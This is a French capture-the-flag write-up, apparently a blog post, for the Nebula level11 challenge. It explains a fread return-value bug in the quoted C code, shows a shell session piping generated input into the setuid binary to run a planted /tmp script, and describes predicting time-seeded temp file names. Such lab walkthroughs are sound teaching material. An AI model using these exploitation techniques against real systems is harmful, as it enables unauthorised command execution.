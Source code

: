 La bonne blague dans le code vulnérable se trouve ici :

```c
  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
```

`length` est la taille du buffer telle que spécifiée par l'entête `Content-Length`. Le code s'assure donc qu'on lise `length` octets seulement si on a assez de place. Jusque là tout va bien.

Seulement si le résultat du `fread` est différent de `length` nous n'atteignons jamais l'appel à `process`. Et là `fread` indique de lire 1 bloc de `length` octets. Le problème c'est que `fread` retourne le nombre de blocs lus... par conséquence il retourne toujours 1 !

On peut utiliser mon code pour faire exécuter une commande dont le nom est d'un caractère mais il faut que la chance mette un octet nul en mémoire après :

```shellsession
level11@nebula:/home/flag11$ cat > /tmp/a
#!/bin/bash
id 
dash
^C
level11@nebula:/home/flag11$ chmod 755 /tmp/a
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
sh: $'a\360\034': command not found
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
sh: $'a\300\225': command not found
level11@nebula:/home/flag11$ python /tmp/gen.py | ./flag11
uid=1012(level11) gid=1012(level11) groups=1012(level11)
```

Seconde déconvenue : l'exécutable est setuid mais il droppe les privilèges avant l'appel à système, ce qui n'était pas indiqué dans le code source...

Une autre solution vue dans les articles suivants :

[nebula-level11.md · GitHub](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9)

[Nebula Walkthrough | Ayrx's Blog](https://www.ayrx.me/nebula-walkthrough/)

[nebula-writeup/level11.md at main · vi11ain/nebula-writeup · GitHub](https://github.com/vi11ain/nebula-writeup/blob/main/level11.md)

Elle consiste à entrer dans le bloc `else` en annoncant un buffer plus grand ou égal à 1024 octets et à essayer de prédire le nom de fichier généré dans la fonction `getrand` :

```c
int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

```